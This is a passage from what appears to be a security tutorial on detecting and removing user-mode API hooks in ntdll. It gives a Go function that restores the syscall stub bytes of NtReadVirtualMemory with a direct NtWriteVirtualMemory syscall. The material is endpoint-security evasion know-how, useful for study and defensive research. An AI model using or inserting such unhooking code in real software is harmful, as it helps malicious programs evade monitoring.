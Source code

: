 We add a breakpoint on the `NtReadVirtualMemory` function and continue the program execution. As you can see we hitted the breakpoint so we were right. In this case the syscall starting bytes are `4c 8b d1 b8` which means that the function isn’t hooked but in a monitorized environment it would probably be

Let’s move the explanation into Golang code

```go
func UnhookApi() (error) {
  // Get calls from dll
  kernel32 := windows.NewLazyDLL("kernel32.dll")
  GetCurrentProcess := kernel32.NewProc("GetCurrentProcess")
  GetModuleHandle := kernel32.NewProc("GetModuleHandleW")
  GetProcAddress := kernel32.NewProc("GetProcAddress")

  // Define bytes array for original syscall bytes
  var assembly_bytes []byte

  ntdll_lib, _ := syscall.LoadLibrary("C:\\Windows\\System32\\ntdll.dll")
  defer syscall.FreeLibrary(ntdll_lib)

  procAddr, _ := syscall.GetProcAddress(ntdll_lib, "NtReadVirtualMemory")

  ptr_bytes := (*[1 << 30]byte)(unsafe.Pointer(procAddr))
  funcBytes := ptr_bytes[:5:5]

  for i := 0; i < 5; i++ {
    assembly_bytes = append(assembly_bytes, funcBytes[i])
  }

  pHandle, _, _ := GetCurrentProcess.Call()

  ntdll_ptr, _ := windows.UTF16PtrFromString("ntdll.dll")
  moduleHandle, _, _ := GetModuleHandle.Call(uintptr(unsafe.Pointer(ntdll_ptr)))

  funcname, _ := windows.UTF16PtrFromString("NtReadVirtualMemory")
  baseAddr, _, _ := GetProcAddress.Call(moduleHandle, uintptr(unsafe.Pointer(funcname)))

  // Get syscall
  NtWriteVirtualMemory, err := hooka.GetSysId("NtWriteVirtualMemory")
  if err != nil {
    return err
  }

  hooka.Syscall(
    NtWriteVirtualMemory,
    uintptr(pHandle),
    uintptr(baseAddr),
    uintptr(unsafe.Pointer(&assembly_bytes[0])),
    uintptr(len(assembly_bytes)),
    0,
  )

  return nil
}
```

